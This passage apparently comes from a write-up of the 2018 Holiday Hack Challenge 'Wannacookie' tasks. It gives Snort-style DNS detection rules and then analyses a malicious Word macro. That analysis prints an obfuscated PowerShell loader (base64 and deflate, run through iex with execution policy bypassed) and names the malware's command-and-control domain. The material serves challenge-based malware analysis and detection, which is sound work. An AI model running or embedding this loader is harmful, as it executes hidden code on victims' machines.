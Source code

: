 This rule, however, is not enterprise ready. Let's soup it up a bit, then dissect why I did what I did.
```
alert udp any any -> any 53 (msg:"Wannacookie Stuff - Orig"; dsize: > 50; content:"|01 00|"; offset: 2; depth: 4; content:"77616E6E61636F6F6B69652E6D696E2E707331"; nocase; offset: 12; depth: 70; sid:40000007)
alert udp any 53 -> any any (msg:"Wannacookie Stuff - Resp"; dsize: > 50; content:"|84 00|"; offset: 2; depth: 4; content:"77616E6E61636F6F6B69652E6D696E2E707331"; nocase; offset: 12; depth: 70; sid:40000008)
```

The first check is for payload size. The reason this check is first is because it is the most computationally easy, reducing the need to further process packets that we know don't meet our signature. The second check is for the DNS query flags, which start 2 bytes into the payload, and terminate two bytes later, giving us an offset range of 2-4. The last check is for our "magic" string. This check is not case sensitive, begins 12 bytes into the payload, and terminates at 70 bytes into the payload.

The second challenge, titled **Identify the Domain**, asks us to determine what domain [the malware sample](https://www.holidayhackchallenge.com/2018/challenges/CHOCOLATE_CHIP_COOKIE_RECIPE.zip) is communicating with. The password to the zip archive, if you're following along, is _elves_.

After decompressing both the .zip archive and the sample itself (if you didn't know, [DOCX files are a bunch of XML documents compressed together](https://www.loc.gov/preservation/digital/formats/fdd/fdd000397.shtml)), I easily identified _word/vbaProject.bin_ as the likely source of malicious activity, as VB Script macros are a known malware technique. As this file should not be compressed, I did the following:
```
micrictor@laptop:~/Documents$ strings vbaProject.bin
...
powershell.exe -NoE -Nop -NonI -ExecutionPolicy Bypass -C "sal a New-Object; iex(a IO.StreamReader((a IO.Compression.DeflateStream([IO.MemoryStream][Convert]::FromBase64String('lVHRSsMwFP2VSwksYUtoWkxxY4iyir4oaB+EMUYoqQ1syUjToXT7d2/1Zb4pF5JDzuGce2+a3tXRegcP2S0lmsFA/AKIBt4ddjbChArBJnCCGxiAbOEMiBsfSl23MKzrVocNXdfeHU2Im/k8euuiVJRsZ1Ixdr5UEw9LwGOKRucFBBP74PABMWmQSopCSVViSZWre6w7da2uslKt8C6zskiLPJcJyttRjgC9zehNiQXrIBXispnKP7qYZ5S+mM7vjoavXPek9wb4qwmoARN8a2KjXS9qvwf+TSakEb+JBHj1eTBQvVVMdDFY997NQKaMSzZurIXpEv4bYsWfcnA51nxQQvGDxrlP8NxH/kMy9gXREohG'),[IO.Compression.CompressionMode]::Decompress)),[Text.Encoding]::ASCII)).ReadToEnd()"
...
powershell.exe -NoE -Nop -NonI -ExecutionPolicy Bypass -C "sal a New-Object; iex(a IO.StreamReader((a IO.Compression.DeflateStream([IO.MemoryStream][Convert]::FromBase64String('lVHRSsMwFP2VSwksYUtoWkxxY4iyir4oaB+EMUYoqQ1syUjToXT7d2/1Zb4pF5JDzuGce2+a3tXRegcP2S0lmsFA/AKIBt4ddjbChArBJnCCGxiAbOEMiBsfSl23MKzrVocNXdfeHU2Im/k8euuiVJRsZ1Ixdr5UEw9LwGOKRucFBBP74PABMWmQSopCSVViSZWre6w7da2uslKt8C6zskiLPJcJyttRjgC9zehNiQXrIBXispnKP7qYZ5S+mM7vjoavXPek9wb4qwmoARN8a2KjXS9qvwf+TSakEb+JBHj1eTBQvVVMdDFY997NQKaMSzZurIXpEv4bYsWfcnA51nxQQvGDxrlP8NxH/kMy9gXREohG'),[IO.Compression.CompressionMode]::Decompress)),[Text.Encoding]::ASCII)).ReadToEnd()"
...
```
I've truncated the output, as I recognized that a word document macro spawning a powershell instance is probably the malware. Now, I just have to decode what is actually being ran.

Using [CyberChef](https://gchq.github.io/CyberChef/), I made quick work of the encoded string. Reading through it, I recognized that the string was first being converted from base64, then being un-deflated, also known as inflated. Using [my final recipie](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true)Raw_Inflate(0,0,'Adaptive',false,false)&input=bFZIUlNzTXdGUDJWU3drc1lVdG9Xa3h4WTRpeWlyNG9hQitFTVVZb3FRMXN5VWpUb1hUN2QyLzFaYjRwRjVKRHp1R2NlMithM3RYUmVnY1AyUzBsbXNGQS9BS0lCdDRkZGpiQ2hBckJKbkNDR3hpQWJPRU1pQnNmU2wyM01LenJWb2NOWGRmZUhVMkltL2s4ZXV1aVZKUnNaMUl4ZHI1VUV3OUx3R09LUnVjRkJCUDc0UEFCTVdtUVNvcENTVlZpU1pXcmU2dzdkYTJ1c2xLdDhDNnpza2lMUEpjSnl0dFJqZ0M5emVoTmlRWHJJQlhpc3BuS1A3cVlaNVMrbU03dmpvYXZYUGVrOXdiNHF3bW9BUk44YTJLalhTOXF2d2YrVFNha0ViK0pCSGoxZVRCUXZWVk1kREZZOTk3TlFLYU1Telp1cklYcEV2NGJZc1dmY25BNTFueFFRdkdEeHJsUDhOeEgva015OWdYUkVvaEc)  gave me the highest registered domain being used by the malware, _erohetfanu.com_.

